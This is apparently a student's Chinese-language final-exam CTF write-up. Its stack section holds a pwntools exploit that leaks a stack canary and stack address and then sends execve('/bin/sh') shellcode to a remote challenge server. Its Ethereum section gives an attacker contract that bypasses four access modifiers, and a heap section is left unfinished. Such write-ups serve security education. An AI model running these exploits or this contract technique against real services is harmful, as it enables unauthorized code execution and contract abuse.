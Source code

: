 # Final: 期末测试

## Stack Final

​	首先，利用GDB查看栈结构。从中可以看出`buffer`在`0x7ffffffe310`位置，而`return_addr`即main函数地址位于`0x7ffffffe338`位置。那么可以知道`0x7ffffffe330`位置为rbp指针，`0x7ffffffe328`位置为Canary。

![gdb](Stack/gdb.jpg)

​	程序中一共有三次循环。可以利用三次循环分别获取Canary、栈地址以及完成ret2shellcode。

​	在第一次循环中，填充25个A（由于Canary的最低位为0，在泄露Canary为了防止字符串被截断，需要先覆盖最后一位，然后再补上`b'0'`），然后利用`printf`函数直接指出Canary的前7位，补上0字符便得到了Canary。

​	在第二次循环中，填充32个A，然后截取A后的6位并补上两个`b'0'`（此处栈地址前两位通常为0），就得到了rbp指针，在GDB中显示rbp指针直接指向`return_addr`所在地址的高一位地址，那么无需偏移。

​	在第三次循环中，构造payload。首先将Canary前的部分填充掉，然后加上Canary，覆盖原rbp，然后把`return_addr`覆盖为rbp再加上shellcode。此时`return_addr`指向了shellcode所在的地址，函数返回时会调用shellcode，执行`system("/bin/sh")`，完成攻击。

```python
from pwn import *
context.log_level = 'DEBUG'
# p=process('./stackload')
p=remote('8.154.20.109', 10601)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b'data:\n')
p.send(b'A'*25)
p.recvuntil(b'Buffer content:')
line=p.recv(0x30)
Canary=b'\0'+line[25:32] #此处泄露Canary
print(Canary)
p.recvuntil(b'data:\n')
p.send(b'A'*32)
p.recvuntil(b'Buffer content:')
rbp=p.recv(40)[32:38]+b'\0'*2 #此处泄露栈地址
rbp_int=u64(rbp)
print(hex(rbp_int))
shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
p.recvuntil(b'data:\n')
payload=b'A'*24+Canary+b'A'*8+rbp+shellcode
print(payload)
p.send(payload)
p.recvuntil(b'Buffer content:')
p.interactive()
```

![flag1](Stack/flag.jpg) 



## Heap Final

(该模块未完成)

​	在堆初始化的内存分配过程中，调用`mmap`函数来获取堆内存空间。调用时`prot`参数传入了7即二进制111，代表可读可写可执行。这样操作说明堆存在可执行的漏洞。

```C
void *tiny_init()
{
  void *result; // rax

  tiny_heap_base = mmap((void *)0x10000, 0x4000uLL, 7, 50, -1, 0LL);
  result = tiny_heap_base;
  if ( tiny_heap_base == (void *)-1LL )
  {
    puts("tiny heap initialization fail");
    exit(-1);
  }
  return result;
```



## Ethereum Final

题目中设定了4个modifier，绕过所有modifier之后会触发`SendFlag()`。

#### mod1

​	对于第一个modifier，只需满足`msg.sender!=tx.origin`即可。其中`msg.sender`为调用这个合约的地址，`tx.origin`为建立整个合约的地址。因此只需建立一个新的合约，利用合约来调用`Final`合约即可满足两者不同，绕过modifier1。

#### mod2

​	对于第二个modifier，需要满足`extcodesize(caller())==0`。其中`extcodesize()`用于获取与指定地址相关联的合约代码的大小。但是在这里可以利用一个漏洞，在构造函数完成之前，新部署的合约地址上实际没有任何字节码存在，因此在构造函数中调用`Final`合约即可达到`extcodesize(caller())==0`的条件，绕过modifier2。

#### mod3

​	对于第三个modifier，需要满足`uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_key) == uint64(0) - 1`，即`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`和`uint64(_key)`互为反码。因此只需构造`key=~uint64(bytes8(keccak256(abi.encodePacked(sender))))`即可绕过modifier3。

#### mod4

​	对于第四个modifier，需要满足`target == guess`。根据代码中分析，需要构造`target = keccak256(abi.encodePacked(entropy1 ^ entropy2 ^ entropy3))`。其中:

- `entropy1`为`blockhash(block.number)`,`block.number`为当前区块的编号，在整个合约调用过程中不变，直接调用即可。
- `entropy2`为`keccak256(abi.encodePacked(msg.sender))`，在攻击代码中调用`address(this)`即可获取。
- `entropy3`为`keccak256(abi.encodePacked(tx.origin))`，只和最初构建合约的用户有关，直接调用即可。

​	将这3个`entropy`进行异或，得到`guess`传输给`Final`合约即可绕过modifier4。至此，4个modifier全部绕过，完成攻击。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//题目代码
contract Final {
    event SendFlag();

    modifier mod1() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier mod2() {
        uint x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier mod3(bytes8 _key) {
        unchecked {
            require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_key) == uint64(0) - 1);
        }
        _;
    }

    modifier mod4(uint256 _guess) {
        bytes32 entropy1 = blockhash(block.number);
        bytes32 entropy2 = keccak256(abi.encodePacked(msg.sender));
        bytes32 entropy3 = keccak256(abi.encodePacked(tx.origin));
        bytes32 target = keccak256(abi.encodePacked(entropy1 ^ entropy2 ^ entropy3));
        bytes32 guess = keccak256(abi.encodePacked(_guess));
        require(target == guess);
        _;
    }

    function play(bytes8 key, uint256 guess) public mod1 mod2 mod3(key) mod4(guess) returns (bool) {
        emit SendFlag();
        return true;
    }
}

//攻击代码
contract Attacker {
    address public finalContract; 

    constructor(address _finalContract) {
        finalContract = _finalContract;

        bytes8 key = calculateKey(address(this));
        uint guess = calculateGuess(address(this));
        (bool success, ) = finalContract.call(
            abi.encodeWithSignature("play(bytes8,uint256)", key,guess)
        );
        require(success, "Attack failed");
    }
	//计算mod3所用的key
    function calculateKey(address sender) public pure returns (bytes8) {
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(sender))));
        return bytes8(~key);
    }
	//计算mod4所用的guess
    function calculateGuess(address sender) public view returns(uint256){
        bytes32 entropy1=blockhash(block.number);
        bytes32 entropy2=keccak256(abi.encodePacked(sender));
        bytes32 entropy3=keccak256(abi.encodePacked(tx.origin));
        return uint256(entropy1 ^ entropy2 ^ entropy3);
    }
}
```

![flag3](Ethereum/flag.jpg)

```
target contract address: 0x
```

